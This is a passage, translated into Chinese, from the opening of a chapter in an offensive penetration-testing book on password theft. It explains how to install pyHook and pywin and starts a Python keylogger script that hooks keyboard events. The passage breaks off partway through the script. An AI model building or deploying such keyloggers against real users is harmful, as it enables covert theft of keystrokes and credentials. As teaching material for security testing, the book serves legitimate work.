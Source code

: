 # 第三章：密码破解

大多数黑客认为他们的目标在运行过时且没有打补丁的 Windows XP，在这种系统上，防病毒软件已禁用，防火墙已关闭，可能也没有入侵防御系统。毕竟，你可能成功入侵他们的系统，也可能没有。这绝对不是现实世界中的渗透测试。

在本章中，我们将处理以下主题：

+   无病毒的键盘记录器

+   浏览器中的人

+   使用 Immunity Debugger 对 Firefox 进行 API 钩取

+   Firefox 中的 Python **概念验证**（**POC**）

+   Firefox 中的 Python EXE

+   密码钓鱼

+   应对措施

# 无病毒的键盘记录器

在本节中，我们将编写一个简单的软件键盘记录器，完全使用 Python 来实现。为此，我们将使用一个名为`pyHook`的库。`pyHook`库封装了 Windows 中的低级鼠标和键盘钩子。根据`pyHook`文档，任何希望接收全局输入事件通知的应用程序都必须有一个 Windows 消息泵。为此，我们还需要另一个名为`pywin`的库。

那么，让我们开始安装这些库吧。

# 安装 pyHook 和 pywin

你可以从[`sourceforge.net/projects/pyhook/files/pyhook/1.5.1/`](http://sourceforge.net/projects/pyhook/files/pyhook/1.5.1/)下载`pyHook`库，并按照屏幕上的指示轻松安装。

确保后台没有运行其他 Python 实例，否则在安装过程中会遇到错误。`pywin`库也可以以相同的方式安装。你可以从[`sourceforge.net/projects/pywin32/files/pywin32/Build%20219/`](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20219/)下载该库。

# 向键盘记录器添加代码

以下是键盘记录器的脚本：

```
# Python For Offensive PenTest

# pyHook download link
# http://sourceforge.net/projects/pyhook/files/pyhook/1.5.1/

# pythoncom download link
# http://sourceforge.net/projects/pywin32/files/pywin32/Build%20219/

# Keylogger

import pythoncom, pyHook

#Again, once the user hit any keyboard button, keypressed func will be executed and that action will be store in event

def keypressed(event):

    global store

#Enter and backspace are not handled properly that's why we hardcode their values to < Enter > and <BACK SPACE>
# note that we can know if the user input was enter or backspace based on their ASCII values

    if event.Ascii==13:
```